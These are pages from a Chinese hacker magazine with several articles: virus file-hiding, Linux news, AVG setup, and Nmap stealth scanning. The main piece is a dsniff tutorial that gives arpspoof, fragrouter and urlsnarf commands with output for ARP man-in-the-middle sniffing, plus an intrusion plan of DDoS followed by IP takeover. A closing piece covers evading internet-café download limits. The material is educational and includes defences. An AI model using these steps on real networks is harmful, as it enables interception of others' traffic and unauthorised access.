# 从病毒身上搜到的宝藏——隐藏文件新方法

JiaJia[YuLv]

- 从本文你可以学到：
- 利用系统属性隐藏文件
- 几个常见的系统文件

前几天上网的时候不小心，我的爱机中招了，中招之后我的爱机所产生的不良反应是所有的磁盘中的 .xls、.doc、.mdb、.ppt、.wps、.zip、.rar 类型文件全部都不见了，还在“开始菜单\程序\启动”中出现了一个“拯救硬盘.txt”的快捷方式，经过分析该病毒应该是“敲诈（Win32.Hack.SnuHay.a）”的变种。这样就好办多了，上网查看了一下资料，把“文件夹选项”隐藏文件选项的“√”去掉，这时在本地磁盘根目录下发现属性为系统、隐藏和只读的“Recycled”文件夹，还有一个样子长得差不多但是名字是“Recycled.{645FF040-5081-101B-9F08-00AA002F954E}”的文件夹，如图 1。

好玩的是，无论点进哪个，进去之后都是回收站里面的内容。其实就是“.{645FF040-5081-101B-9F08-00AA002F954E}”这个后缀所产生的效果，它们除了文件名不同之外还有一个不同的地方。对比查看这两个东东的文件夹属性时，可以发现系统的回收站的隐藏选项是不能更改的，而不是系统的回收站的隐藏选项则可以更改，如图 2。

下转第 287 页

金秋十月在大家还在享受国庆七天乐的时候，latteye 已经要准备期末考试了～（啥？期末不是 1 月么？latteye 今年 11 月就期末咯……）。本期窗外由 XApache 为大家全力打造。在《朝鲜姑娘》之后，大家可以看到一个文学与技术相互融合的窗外。想必在《黑客手册》历史中是具有突破性的地位的。

> 病毒不再是 Windows 的专利，各个系统上都开始出现，甚至是手机上。Linux 该如何面对？我们依然要支付昂贵的费用给杀毒软件厂商么？Shell 下的扫描工具性能如何？能和流光相媲美么？赶快来看本期《窗外》吧。

北京的秋天终于到了，天空蓝得一泻千里，很高，很静远，很明媚。没有春的干燥，夏的蒸腾，冬的萧索。只要做一个深呼吸，整个精神状态就会感到非常愉快，于是我就在这凉爽的周日午后，泡上绿茶，一边把自己的 Linux 桌面换成大片的红枫叶，一边打开 Nohack，慢慢欣赏起“窗外”的风景……

# Linux 笔记本基于“敲打”的命令

有史以来第一次，你可以敲打一下计算机并得到有意义的响应！使用 Linux 和 Hard Drive Active Protection System（硬盘活动保护系统，HDAPS）内核驱动程序，我们可以访问 Lenovo（以前为 IBM？）ThinkPad 上的嵌入式加速器，然后处理加速器的数据来读取特定“敲打”事件序列（也就是您使用关节敲打笔记本的事件序列），并基于这些敲打事件运行一些命令。双击锁定屏幕，然后敲入密码来解锁。敲打显示屏一次就可以让 MP3 播放器前进一个音轨。这类可能的事物是无穷无尽的。

2003 年，IBM 开始发行集成了加速器和相关软件的 ThinkPad 笔记本，以便在笔记本掉到地上时对硬盘进行保护。来自 IBM 和其他地方的黑客已经为 Linux 内核开发了一些模块来利用这些传感器的优点。屏幕显示方向、桌面切换、甚至是游戏控制和实时的笔记本倾斜度 3D 模块现在都已经可以使用了。本文将展示“敲打代码”这种新技术和一个简单程序，该程序在检测到特定的敲打代码时会运行一些命令。

> XApache 点评：看到以上这个消息，很多在笔记本上装了 Linux 的朋友是不是跃跃欲试？不过很遗憾，这个技术目前还只能在 ThinkPad 系列的笔记本上实现，IBM 的创意和实力，果然不容小看。不知道以后再发展下去，鼠标是不是就不用了，需要进行什么操作敲敲打打就可以了。如果配合特别的发声程序，笔记本岂不是以后能当个乐器用了，呵呵，期待这样的应用。

# 哈佛商学院教授称 Linux 无法战胜 Windows

哈佛商学院两位教授近日公布的报告显示，尽管 Linux 吸引了越来越多的用户，但它始终是微软 Windows 之外的第二选择。

卡萨德苏斯·马萨内尔和格瓦特在接受哈佛商学院刊物《应用知识》的采访时称：“Linux 拥有的优势还不足以打败 Windows。对于 Linux 来说，要想战胜 Windows，途径之一就是获得大企业和主流政府的认可。但只要有权访问源代码，政府并不希望改变 Windows‘一独独秀’的现状。这也正是微软愿意向政府提供大量 Windows 源代码的主要原因。”

卡萨德苏斯·马萨内尔和格瓦特还表示：“软件盗版是 Linux 无法战胜 Windows 的另一个重要原因。在盗版盛行的国家，大多数用户都不愿意选用 Linux。也就是说，在盗版率较高的国家，Linux 的普及率往往最低。”报告同时指出，虽然 Linux 不足以打败 Windows，但微软并不能坐视竞争对手的不断壮大。因为 Linux 直到 1992 年才出现，而此时市场早已被微软垄断。

> XApache 点评：无论是在开源社区还是微软技术新闻组，对于 Linux 和 Windows 谁最终战胜谁一直是大家争论的焦点，经过许久还是没有一个结果，现在连商学院的教授也出来发表这方面的见解了，可见这个论题的受关注程度着实之高。由于西欧是 Linux 的发源地，同时又拥有相当完善和严格的版权法，所以 Windows 系统在欧洲并不像美国那样普及，两者旗鼓相当。而盗版猖獗的地区，几乎是向 Windows 一边倒。个人感觉，两者没必要非分出个强弱，在几次挑战 Windows 桌面失败以后，Linux 更多地在服务器领域发展，而 Windows 却在桌面上越做越豪华，新出的 Vista 系统甚至是为界面就要耗费掉大量内存。两者虽然在各自不擅长的领域有所成果，但在大多数用户的心里，谁适合做什么还是瞎子吃蚕豆——心中有数。

# Sun 收购 JRuby 向动态语言迈进

近日，Sun 对外正式宣布决定收购 JRuby 项目，这是 Sun 迈出的重要一步。

Charles Nutter，JRuby 的核心开发者之一，宣布：Sun 已经整体收购了 JRuby 项目，他与 JRuby 的另外一个核心开发者 Thomas Enobo 都将会加入 Sun。

> Sun 终于开始表露出不仅是 Java 运行在 JVM 上的兴趣了。从这次动作看得出来 Ruby 在 Sun 战略中的地位，看来 Ruby 很有可能成为 JVM 支持的第一个非 Java 语言。动态语言，已经不遥远了。

> XApache 点评：Ruby 是由日本人松本行弘（Yukihiro "Matz" Matsumoto）发明的一种面向对象的脚本语言。推出之后受到大量开发者的喜欢。就目前看来，它和 Python 是现在最好的动态脚本语言，很多人不喜欢 Ruby，因为 Ruby 的语法有点像 Basic。Sun 这次慢了一拍，当初 Jython（结合了 Python 和 Java 众多优点的一门语言）出来的时候不闻不问，后来 IronPython 一推出就被微软招募了，微软的市场洞察力让人惊叹，不过如今 Sun 总算补救及时，Ruby 的前途也是充满阳光（有 Sun 照着呢）。

# 百度签约信产部 CSIP 跨入开源软件商用领域

日前全球最大的中文搜索引擎百度（Nasdaq: BAIDU）与国家信息产业部软件与集成电路促进中心（CSIP）宣布正式达成合作。合作双方将在开源软件领域展开多方面的合作，共同促进我国开源软件产业的发展。此举意味着百度正式进入开源领域，将选择合适的产品优先放到 CSIP 开源社区，丰富基于 Linux 的产品应用。双方还将在开源社区寻找优秀的项目，经过评估，根据项目的具体情况，将有选择地进行商业化并对开源项目进行扶持。

百度首席技术官刘建国介绍说，百度一直以来非常关注开源领域的发展，我们大多数产品都是基于 Linux 开发的。我们对本次能够有机会参与到开源领域并尽一份绵薄的努力感到非常高兴。双方合作的第一步将联合开发基于 Firefox 的百度超级搜霸工具条，使得使用 Firefox 浏览器的用户能够方便、快捷地使用百度的网页搜索、mp3 搜索、图片搜索、社区搜索（包括贴吧、知道、百科）、新闻搜索、词典搜索、站内搜索和硬盘搜索等优秀的中文搜索服务。百度对此次能与信息产业部软件与集成电路促进中心合作感到非常高兴，我们将投入优秀的技术人员，确保本项目取得圆满成功。今后，百度将一如既往地支持国家促进 IT 产业发展的各种政策并尽可能地积极参与。

> XApache 点评：Google 不但自己大量采用开源社区产品，还资助和开发了很多开源项目，推广了像 Firefox 这类优秀的浏览器软件等等，连全球著名的 Linux 领袖安德鲁·莫顿（Andrew Morton）也于近日成为了 Google 的一员。百度进入开源领域，总的来说对我国开源软件产业的发展还是有所推动作用的，只是希望他们不要做出 Windows 上流氓软件一样的应用，百度超级搜霸工具条这类的软件，可要记得提供方便的卸载服务哦。

# Linux 终极 Sniffer

撰写此文前，有必要感谢几位朋友：孤行一鬼、剑鹰、孤鹰、翱翔、星星、乱匪-J/moon，谢谢他们给予我帮助与鼓励，还有善解人意的老婆晓静，谢谢你们！

想必大家都在 Windows 上玩过 Arpsniffer，效果大家都晓得（无数次渗透必杀……），很久以前看过 dahubao 的中间人劫持，感觉利用得很巧妙。今天带给大家关于 Linux 里的超级嗅探工具：dsniff。按以下几个步骤：原理篇、安装篇、实战篇、防御篇给大家介绍。

## 一、原理篇

首先还是得说下什么是 ARP。如果你在 UNIX/Linux/Windows Shell 下输入：arp -a（图1）。

| Interface: 192.168.2.2 --- 0x10003 |  |  |
|---|---|---|
| Internet Address | Physical Address | Type |
| 192.168.2.1 | 00-0c-29-68-b6-e5 | dynamic |
| 192.168.2.8 | 00-02-3f-00-7b-31 | dynamic |

图1

- 第一列显示的是 IP 地址。
- 第二列显示的是和 IP 地址对应的网络接口卡的硬件地址（MAC）。
- 第三列显示的是 IP 和 MAC 的对应关系类型（静态地址或动态地址）。

可见，ARP 是一种将 IP 对应的网卡物理地址的一种协议，或者说 ARP 协议是一种将 IP 地址转化成 MAC 地址的协议。它是靠维持在内存中保存的一张表，来使 IP 地址在网络上被目标机器应答。

为什么要将 IP 转化成 MAC 呢？简单地说吧，因为在 TCP 网络环境下，一个 IP 包走到哪里，要怎么走是靠路由来定义。但是，当 IP 包到达该网络后，哪台机器响应这个 IP 包，都是靠该 IP 包中所包含的 MAC 地址来识别。也就是说，只有机器的 MAC 地址和 IP 包中的 MAC 地址相同的机器才会应答。在每台主机的内存中，都有一个 ARP->MAC 的转换表。通常是动态的转换表（注意在路由中，该 ARP 表可以被设置成静态），ARP 表默认是 30 秒更新一次，也就是说，该地址表会被主机在需要的时候刷新。这是因为以太网在子网层上的传输是靠 48 位的 MAC 地址来决定的。通常主机在发送一个 IP 包之前，它要到该转换表中寻找 IP 包对应的 MAC 地址，如果没有找到，该主机就发送一个 ARP 广播包，看起来类似：“我是主机 A，IP 地址为 192.168.1.1，MAC 是 00:02:3F:00:7B:31，问 IP 为 192.168.1.2 的主机请告诉我你的 MAC”，IP 为 192.168.1.2 的主机响应这个广播，应答 ARP 广播为：“我是 192.168.1.2，我的 MAC 为 00:02:3F:00:7B:10”，于是，主机刷新自己的 ARP 缓存，然后发出该 IP 包。

了解这些常识后，现在就可以谈谈在网络中如何实现 ARP 欺骗了，可以看看这样一个例子：一个入侵者想非法进入某台主机，他知道这台主机的防火墙只对 192.168.2.3（假设）这个 IP 开放 23 端口（telnet），而他必须使用 telnet 来进入这台主机，所以他也许会这么做：

- 1. 先研究 192.168.2.3 这台主机，发现主机开了 WEB。
- 2. 于是，DDOS 192.168.2.3。
- 3. 这时，主机发到 192.168.2.3 的 IP 包将无法被机器应答。

（过了数秒后）系统开始更新自己的 ARP 对应表，将 192.168.2.3 的项目删除。

- 4. 这段时间里，入侵者把自己的 IP 改成 192.168.2.3（如路由交换做了 MAC 受限，可以把 MAC 地址修改成对应的地址）。欺骗过程如下：
  - （1）他发一个 ping 给主机，要求主机更新自己的 ARP 转换表。
  - （2）主机找到该 IP，然后在 ARP 表中加入新的 IP->MAC 对应关系。
  - （3）防火墙失效了，入侵的 IP 变成合法的 MAC 地址，攻击者这样就可以 telnet 了。现在，假如该主机不只是提供 telnet，它还提供 r 命令（rsh、rcopy、rlogin 等），所有安全的策略将失效，入侵者可以放心使用这台主机的资源而不用担心被记录什么。

上面就是 ARP 的简单欺骗过程，这是在同网段发生的情况，也是我们在渗透主机时经常使用的方法。接下来我们进入安装篇，来领略嗅探风采！

## 二、安装篇

官方网站：http://www.monkey.org/~dugsong/  
记得以前是 2.3 版，现在升级到 2.4 了，安装了 2.4 发现工具并非很全，所以这里演示安装版本为 dsniff-2.3。

```text
安装环境：Red Hat Enterprise Linux AS release 3
安装必须文件：dsniff-2.3.tar.gz //欺骗工具包
fragrouter-1.6.tar.gz //用来实现数据包转发
libnet-1.0.tar.gz //以下用到的网络库函数
libnids-1.16.tar.gz
libpcap-0.6.2.tar.gz //驱动库
openssl-0.9.6c.tar.gz
```

- 1. 先把这些包传到主机上（这里用 SMB），我已经上传好了（图2）。
- 2. 解压缩软件包命令：tar zxvf 包名。
- 3. 命令安装：分别进入目录输入：./configure && make && make install。这里安装 openssl-0.9.6c.tar.gz 时候运行：./config && make && make install。最后安装 dsniff 包，它依赖上面那么多的包所以最后安装，大约几分钟就装好了（图3）。
- 4. 这个包里面有很多可执行程序，威力那真的是相当大了（~HOHO）。

列举几个常用的：arpspoof、mailsnarf、urlsnarf、dnsspoof、fragrouter，一看名字相信同道者都明白了。而我们今天要用到的工具有：arpspoof、urlsnarf、fragrouter，是不是很期待？好吧，我们进入交换环境下的 Sniffer 实战篇！

## 三、实战篇

**实战环境：**

攻击者：Red Hat Enterprise Linux AS release 3  
IP：192.168.2.100  
MAC：00:0C:29:60:B6:E5

受害者：Windows 2003 Enterprise Edition sp1  
IP：192.168.2.2  
MAC：00-0C-29-20-F3-1F

网关：Windows 2003 Enterprise Edition sp1  
IP：192.168.2.1  
MAC：00-0C-29-81-4B-A8

### 1. 虚拟环境

在局域网中，192.168.2.2 都是通过网关 192.168.2.1 上网的，假如攻击者的系统 IP 为 192.168.2.100，他希望监视到 192.168.2.2 的通信，那么我们就可以利用 ARP 欺骗实现。

首先告诉 192.168.2.2，网关 192.168.2.1 的 MAC 地址是 192.168.2.100；告诉 192.168.2.1，192.168.2.2 的 MAC 地址是 192.168.2.100。

这样 192.168.2.2 和 192.168.2.1 之间的数据包，就会发给 192.168.2.100，也就是攻击者的机器，这样就可以听到会话了。但是这么做有一个问题，192.168.2.2 发现自己不能上网了，因为原来发给 192.168.2.1 的数据包都被 192.168.2.100 接收了，而并没有发给网关 192.168.2.1。这时候 192.168.2.100 设置一个包转发的东西就可以解决这个问题了（fragrouter 工具），也就是把从 192.168.2.2 收到的包转发给 192.168.2.1，再把从 192.168.2.1 收到的包发给 192.168.2.2，这样 192.168.2.2 根本就不会意识到自己已被监视了。这也是传说中的中间人工具，和写代码差不多，做一个交换处理！

### 2. 攻击方法

这里要在 4 个终端进行切换输入命令，也可以放到后台运行。

```bash
[root@Cnsafety dsniff-2.3]# arpspoof //使用参数
Version: 2.3
Usage: arpspoof [-i interface] [-t target] host
-i: 为接口
-t: 目标
```

运行如下：

```bash
[root@Cnsafety dsniff-2.3]# ./arpspoof -i eth0 -t 192.168.2.2 192.168.2.1
0:c:29:60:b6:e5 0:c:29:20:f3:1f 0806 42: arp reply 192.168.2.1 is-at 0:c:29:60:b6:e5
0:c:29:60:b6:e5 0:c:29:20:f3:1f 0806 42: arp reply 192.168.2.1 is-at 0:c:29:60:b6:e5
```

解：首先告诉 192.168.2.2，网关 192.168.2.1 的 MAC 地址是 192.168.2.100 的地址。

接着运行：

```bash
[root@Cnsafety dsniff-2.3]# arpspoof -i eth0 -t 192.168.2.1 192.168.2.2
0:c:29:60:b6:e5 0:c:29:81:4b:a8 0806 42: arp reply 192.168.2.2 is-at 0:c:29:60:b6:e5
0:c:29:60:b6:e5 0:c:29:81:4b:a8 0806 42: arp reply 192.168.2.2 is-at 0:c:29:60:b6:e5
```

解：告诉 192.168.2.1，192.168.2.2 的 MAC 地址是 192.168.2.100 的地址。

接着我们要转发了哈～继续 ing……。这里最好先让内核实现转发：

```bash
echo "1" > /proc/sys/net/ipv4/ip_forward
```

现转发：

```bash
[root@Cnsafety fragrouter-1.6]# fragrouter -B1
fragrouter: base-1: normal IP forwarding
192.168.2.1.137 > 192.168.2.2.137: udp 68
192.168.2.2 > 192.168.2.1: icmp: type 8 code 0
192.168.2.1 > 192.168.2.2: icmp: type 0 code 0
192.168.2.2.3012 > 192.168.2.1.139: S 1935139143:1935139143(0) win 64240 <mss 1460,nop,nop,sackOK> (DF)
192.168.2.1.139 > 192.168.2.2.3012: S 1222640247:1222640247(0) ack 1935139144 win 64240 <mss 1460,nop,nop,sackOK> (DF)
192.168.2.2.3012 > 192.168.2.1.139: P 1935139144:1935139216(72) ack 1222640248 win 64240 (DF)
192.168.2.1.139 > 192.168.2.2.3012: P 1222640248:1222640252(4) ack 1935139216 win 64168 (DF)
```

很快就能看到转发的结果，转发后我们来看看被害主机的 MAC（图4）。

呵呵～和图1比较，很明显攻击者的 MAC 地址和网关 IP 地址相同。你可以去被害主机 PING 网关看看会有什么反应。我在攻击者这台机器上去 Ping，发现异常，感兴趣可以试试。接下来我们要看看受害者在干些什么？继续 ing…输入命令如下：

```bash
[root@Cnsafety dsniff-2.3]# urlsnarf
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
```

网卡已经是混合模式了，在监视数据，看看都获取到什么了（图5）。

呵呵～看到什么了吗？这只是一部分，目前 urlsnarf 只支持 80 和 8080 还有 3128 端口，我在最新的 2.4 版本上没有找到此工具。这不能不说有些遗憾，但是我想这基本够用了。也希望开源高手们继续研究，发布最好用的工具。HOHO~

## 四、防御篇

知道 ARP 欺骗的厉害，我们再来讲下防御。Windows/Linux 最通用的方法是：ARP 绑定，其实也很简单，Linux/Windows 使用：arp -s IP MAC。必须要每台机器都是一样的 MAC 表哦！这就实现了静态 MAC 地址的绑定，当然也可以在 Switch 和 Router 上做，同样能起到效果。还有用 Iptables 内核级防火墙等等……

想成为高手不但要会协议，会分析包，而且还要能很快地了解网络状况（如：病毒、攻击等）。如果有机会，下次教大家如何在 Unix/Linux 做安全配置！

> [文中所涉及的工具 dsniff-2.3 已收录于光盘中。]

# 编辑点评

记得小编最初学习嗅探相关知识也是从 Linux 下工具开始的，当时看的是紫天星的文章。虽然那时并没有到 Linux 下自己做实验，但是在反复看之后，似懂非懂中对网络的架构有了相对初步、逻辑的了解，这对今后学习帮助相当大，希望各位读者多看几遍，有不懂的欢迎来论坛上讨论。

# AVG Anti-Virus Free For Linux 安装和使用说明

小胖

从本文你可以学到：

- 1. 怎样获取免费的杀毒软件 AVG Anti-Virus
- 2. Linux 下杀毒软件的安装和使用

以前人们都有一个观点，Linux 上没有病毒。不错，在 Linux 的早期确实没有发现过病毒，而且由于 Linux 作为操作系统在权限控制上的科学设计，使得在 Linux 上开发病毒非常困难，但是随着技术的发展，也开始出现了一些针对 Linux 的病毒。不过，同时也开始出现了一些杀毒软件，本文就介绍一款免费的杀毒软件：AVG Anti-Virus。

## 一、安装 AVG Anti-Virus

首先来这里下载免费版的 AVG Anti-Virus：（它是一个 rpm 包）  
http://free.grisoft.com/doc/avg-anti-virus-free/lng/us/tpl/v5

然后你要对它进行解压缩并安装，在文字界面（或图形界面的终端）下输入：

```bash
[root@linux root]# rpm -ivh /avg-antivirus-for-linux.rpm --nodeps --force
```

注释：我将下载的软件包保存在了 /root 下面，保存的名字为 avg-antivirus-for-linux.rpm。如果你在软件包管理器中有依赖关系的包，那么输入 rpm -ivh /avg-antivirus-for-linux.rpm 即可。因为在我的系统中的软件管理器中找不到依赖关系的包，所以我进行强制安装。终端界面上会有如下的显示：

```text
Preparing...                ########## [100%]
1:avg71flr                  ########## [100%]
Installing 'avgd' service initscripts...
Registering 'avgd' service to runlevels...
AVG7 Anti-Virus command line scanner
Copyright (c) 2006 GRISOFT, s.r.o.
Program version 7.1.30, engine 386
Virus Database: Version 268.11.1/421 2006-08-16
License type is FREE.
Please launch the '/opt/grisoft/avggui/bin/avggui_update_licinfo.sh'
script as root for updating license information...
AVG 7.1 Anti-Virus Free for Linux successfully installed.
```

可以看出 AVG Anti-Virus 已经解压并安装好了，在 /opt/grisoft 目录下。我们可以看一下相关文件里的截图，这个是 /opt 下的 grisoft（图1）。这个是 /opt/grisoft 里的内容（图2）。这个是 /opt/grisoft/avg7 里的内容（图3）。这个是 /opt/grisoft/avg7/bin/ 中的内容，可以看到里面有 avgscan 和 avgupdate 两个可执行文件，分别完成扫描和更新功能（图4）。我们用命令来启动它的扫描和更新功能。

## 二、启用扫描功能

在文字界面（或图形界面的终端）下输入：

```bash
[root@linux root]# /opt/grisoft/avg7/bin/avgscan 要扫描的目录名
```

比如我想扫描 /boot，那么我就输入：

```bash
[root@linux root]# /opt/grisoft/avg7/bin/avgscan /boot
```

文字或者终端界面上会有如下的显示：

```text
AVG7 Anti-Virus command line scanner
Copyright (c) 2006 GRISOFT, s.r.o.
Program version 7.1.30, engine 386
Virus Database: Version 268.11.1/421 2006-08-16
License type is FREE.
Tested: 6 files, 0 sectors
Infections: 0
Errors: 0
```

以此类推！

## 三、启用更新功能

在文字界面（或图形界面的终端）下输入：

```bash
[root@linux root]# /opt/grisoft/avg7/bin/avgupdate
```

终端界面上会有如下的显示：

```text
usage: /opt/grisoft/avg7/bin/avgupdate [OPTIONS] [PATH|LIST]
OPTIONS:
-o, --online online update from Internet
-f, --offline offline update from PATH or LIST
-d, --download download update files
-p, --priority NUM
NUM represents type of update:
2 - priority update
3 - recommended update
4 - optional update
-c, --config FILE
use other config file
-t, --daemon-pid FILE
file with AVG daemons group pid
-i, --no-diff ignore binary diff files
-b, --no-backup do not create backup files
-n, --no-progress do not display progress information
-l, --no-log do not create log file
-a, --no-daemons do not restart daemons
-m, --complete only complete updating files
-r, --restore restore previous version
-v, --version display version
-h, --help display this help and exit
PATH directory with update files
LIST list of update files separated with space
```其中，-o 是在线更新，-f 是从指定的路径或者列表安装更新，-d 是下载更新文件。我们一般选择 -o。输入：

```bash
[root@linux root]# /opt/grisoft/avg7/bin/avgupdate -o
```

文字或者终端界面上会有如下的显示：

```text
Preparing to download files from http://www.grisoft.cz/softw/70/update/
Downloading file: avginfo.ctf [ 5989B]
Downloading file: u7avi601u716k5.bin [ 459549B]
Downloading file: u7avi451u430k6.bin [ 237837B]
Updating...
Sending signal to AVG Anti-Virus Daemons...reload virus database
Online update finished successfully.
```

可以看出，更新成功了。我们也可以用 -d，输入：

```bash
[root@linux root]# /opt/grisoft/avg7/bin/avgupdate -d
```

终端界面上会有如下的显示：

```text
Preparing to download files from http://www.grisoft.cz/softw/70/update/
Downloading file: avginfo.ctf [ 0B]
Nothing new to update.
```

因为此前我刚刚在线更新过，所以最后会提示 Nothing new to update，没有新的更新。

这样我们就完成了扫描和更新的工作，免费版不需要注册就可以使用，也只能使用这两个功能。

这里特别提醒 Linux 的用户，对于 Linux 下的计算机病毒也不要大意。Linux 下的病毒虽然远没有 Windows 多，但是病毒对于 Linux 的系统安全也是有很大危险的。目前 Linux 下的病毒解决方案也有很多，不仅仅是能扫除 Linux 的病毒，也能扫除 Windows 的病毒，这一点对于 Linux 来做文件服务器或者是装多个操作系统的用户大有帮助。

**编辑点评：**随着 Linux 的大量兴起，以往只关注 Windows 平台的病毒慢慢地向 Linux 移植，今年上半年甚至出现了一个跨平台传播的病毒，能够影响多种操作系统，让人大跌眼镜。各个杀毒软件厂商也开始推出自己的 Linux 杀毒产品，比如最近卡巴斯基就特别推出了针对 Linux 以及 Unix 电子邮件服务器、文件服务器以及工作站的杀毒软件。不过作为普通的 Linux 桌面用户，免费版的 AVG Anti-Virus 已经可以胜任了。

# 在 Linux 环境下使用 Nmap 进行扫描

从本文你可以学到：

- Linux 环境下扫描的特点
- Nmap 多个扫描方式和用途

> 摘要：针对在 Linux 环境下对服务器进行扫描，简单介绍使用扫描程序 Nmap 进行端口扫描、辨别操作系统。  
> 关键字：Linux，扫描，Nmap

在 Windows 环境下，大家都熟悉如何对主机进行扫描，而且有很多的工具，如流光、X-scan 等。在 Linux 环境中，我们依然和 Windows 一样进行扫描工作，同时也有很强大的扫描工具——Nmap。闲言少叙，进入正题。

## 一、Nmap 软件介绍

虽然可用的扫描工具有很多，如同 Windows 下一样，但 Nmap 依然是 Linux 环境下最强大、功能最丰富的扫描工具，而且还是免费的，在 Fedora Core 5 的软件包中含有。也可以从网上下载 Nmap，http://www.insecure.org/nmap/ 拥有 Nmap 的最新程序源代码。同时，该网站还有 NmapFE（即 Nmap Front End，是 Nmap 的 GUI 前端程序），使用图形界面对于新手可能更好入手，只可惜是全英文的。

## 二、Nmap 功能介绍

Nmap 功能很强大，这里仅介绍几种常用的扫描方式。如果读者希望对它进行全面地了解，最好去官方看看相关的文档。

### 1. Ping 扫描

不用介绍了吧？这是扫描里最基础的方式了，速度快，但是太暴露，被记录是必然的。

命令：`[bash] # nmap -sP TargetIP`

例：

```bash
[root@localhost ~]# nmap -sP 192.168.1.102
Starting nmap 3.81 ( http://www.insecure.org/nmap/ ) at 2006-04-27 21:56 CST
Host frank.friday (192.168.1.102) appears to be up.
Nmap finished: 1 IP address (1 host up) scanned in 0.114 seconds.
```

“appears to be up” 用于 Nmap 中，表示主机处于活动状态。

### 2. SYN 半开放扫描

这种扫描方式会向目标主机发送一个 SYN 包。如果目标主机正在对特定端口进行监听，那么它可能会回复一个 SYN+ACK 包；如果目标主机处于活动状态，但是没有对该端口进行监听，则会回复一个 RST 包。由于这种方式没有完成 TCP 的三次握手，这种方式是一种很隐蔽的方式，不会被主机记录（图 1）。

命令：`[bash] # nmap -sS TargetIP`

0.267 秒，Nmap 中的 SYN 扫描速度还是很快的，而且端口与对应服务判断得很准确。端口与对应服务在此不作介绍。

### 3. FIN 扫描

FIN 包用于释放一个已建立的 TCP 连接。在这种方式下，向目标主机发送一个 FIN 包，如果对方正在监听某个特定端口，那么目标主机不会有任何回复；如果对方主机活动，但是没有对特定端口进行监听，那么会回复一个 RST 包。

这种扫描没有使用 TCP 的三次握手，所以更加隐蔽（图 2）。

命令：`[bash] # nmap -sF TargetIP`

更加安全，然而速度上受到影响，不过即使如此，1.5 秒的扫描时间也很让人满意了。

图 1

### 4. XMAS tree 扫描

XMAS tree 扫描打开了 TCP 报文上许多标记，如 FIN、URG（紧急数据标记）、PSH（将数据尽快传输到应用层的标记）等。URG 和 PSH 对于扫描本身没有什么影响，因此 XMAS tree 扫描类似于 FIN 扫描，也是一种很隐蔽的方式（图 3）。

命令：`[bash] # nmap -sX TargetIP`

图 2

### 5. NULL 扫描

NULL 扫描（空扫描），将所有的标记都取消，记录目标主机的回复以判断相关端口。

这也是一种隐蔽的扫描方式（图 4）。

命令：`[bash] # nmap -sN TargetIP`

在流光中可以看到这种扫描。

图 3

### 6. ACK 扫描

发送的包是 ACK 包，用于确认连接。ACK 扫描主要用来探测对方的防火墙信息。如果 ACK 没有回应，那可能是对方过滤了该端口；如果回复 RST，则对方防火墙没有过滤。

命令：`[bash] # nmap -sA TargetIP`

明显比其他的扫描要多一些。在状态里也能看出来，Filtered 表示已经过滤的（图 5）。

图 4

### 7. IP 协议扫描

IP 协议扫描发送数据包，判断目标主机支持哪些协议。

这种扫描方式不是隐蔽扫描，会被对方主机记录。

命令：`[bash] # nmap -sO TargetIP`

这里扫描出了支持的 6 个协议：ICMP、IGMP、TCP、UDP、IPv6，至于最后那个未知是什么我也看不清楚。

图 5

### 8. 操作系统识别

Nmap 不需要借助其他工具，就可以对目标主机的操作系统进行识别（图 6）。

命令：`[bash] # nmap -O TargetIP`

这次使用 NmapFE 对新浪进行的扫描，推测系统是 FreeBSD。

> 注：另一个小工具 Xprobe2 可以进行操作系统识别，它利用 ICMP 进行判断，然后对各种操作系统的可能性进行排序，产生列表。

命令：`[bash] # xprobe2 -v TargetIP`

以上只简单列出了 Nmap 的几种使用方法。Nmap 功能强大，对于进攻前的信息收集十分有帮助。另外，如果不喜欢命令行格式，可以使用新版的 NmapFE，全部 12 种扫描选项都可以在下拉菜单中选择，同时可以对其他选项进行设置，使用十分方便，不过最好抱着本字典，免得出现什么问题。扫描的时候出问题会暴露目标的。

### 对于刚转入 Linux 的同志，有几点需要强调：

- 第一，Linux 操作系统是严格区分大小写的，在 Windows 下输入 PING、Ping、ping 是没有区别的，而在 Linux 下是不允许的，“Nmap -sS 192.168.1.102” 不会执行任何命令，新手尤其注意；
- 第二，Windows 下很多命令都使用 “/” 来带选项，比如 “dir /p”，而 Linux 都是用 “-” 或者 “--”。这里的例子全都是用 “-” 的，随着 Linux 的使用，也会遇到 “--”，这种格式才是 Linux 自己的；
- 第三，Nmap 的定位是一款用于网络安全的工具，所以普通用户是不可以构建 SYN 报文的，必须使用 root 用户才可以构建自己的 SYN 包。建议大家最好还是安装一套 Linux 来体验，也可以使用虚拟机或者 LiveCD，如 Slax 或 Knoppix。

> [注] 本文的使用环境为：Ubuntu 6.06 LTS / Nmap 4.03

图 6

编辑点评：Linux 下的扫描工具，并不比 Windows 平台下的少，而且 “SYN 半开放扫描” 这类有效躲避防火墙检测的技术最早也是在 Unix/Linux 下出现的，后来慢慢被移植到 Windows 下。我们熟悉的流光和 X-scan 也是借鉴了 Linux 下众多优秀扫描器才不断完善的。可是由于 Linux 平台下的程序操作太过繁琐，大多都是用命令行实现，让人望而生畏。难得提供了一些图形界面的，还是在华丽界面、操作简便的流光等工具面前败下阵来，无法吸引初学者使用。想到这里，忍不住对 Linux 的桌面应用担心起来……

# 为了下载

## 再次挑战网吧下载限制

9527

从本文中你可以学到：

- 一种新颖的绕过下载限制的方法

今天还是来说说如何突破下载限制。经常看《黑客手册》的朋友会发现，利用网吧客户端上的一些程序可以绕过限制，例如网吧提供了网页三剑客，那么我们就可以利用 Dreamweaver 的 FTP 功能下载指定程序；也可以通过系统的特性来下载应用程序（参考 2005 年 12 月的《绕过网吧下载限制之终极方法》，这篇文章是利用脱机下载的特性在系统临时文件夹里获得下载的程序，但作者只是借助创建快捷方式来完成的，而现在该方法不是很好用了）。根据系统特性，我又想到只要利用一个程序去读取你要下载的程序，等读操作完毕后，系统的临时文件夹里就会出现你读的程序，这样一来不就又有突破网吧下载限制的方法了吗？

